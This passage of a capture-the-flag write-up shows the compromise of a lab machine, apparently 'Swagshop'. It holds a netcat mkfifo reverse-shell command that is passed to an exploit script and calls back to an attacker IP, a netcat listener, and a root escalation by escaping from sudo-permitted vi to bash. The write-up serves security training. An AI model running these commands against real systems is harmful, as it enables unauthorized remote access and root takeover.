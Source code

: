 My classic python reverse shell was not working as there was no python on the box and
the bash reverse was also not working. Nevertheless, the netcat one was working:

    :::bash
    python sploi.py http://10.10.10.140/index.php/admin "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.148 1234 >/tmp/f"

On the client side we need to open a listener with netcat:

    :::bash
    netcat -lvp 1234

Then we got a reverse shell!

With this reverse shell the commands are the same but faster ;).
We can easily find the user flag:

    :::text
    ls /home/
    haris
    ls /home/haris/
    user.txt
    cat /home/haris/user.txt
    a44887<redacted>

For the privilege escalation we can just spwan a vi:

    :::text
    $ sudo -l
    Matching Defaults entries for www-data on swagshop:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User www-data may run the following commands on swagshop:
        (root) NOPASSWD: /usr/bin/vi /var/www/html/*
    $ sudo /usr/bin/vi /var/www/html/1

We get an error about the terminal not being interactive:

    :::text
    Vim: Warning: Output is not to a terminal
    Vim: Warning: Input is not from a terminal

Then we just enter the command to get a shell from vi:

    :::text
    :! /bin/bash
    id
    uid=0(root) gid=0(root) groups=0(root)
    ls /root/
    root.txt
    cat /root/root.txt
    c2b087<redacted>


# Wrapping up

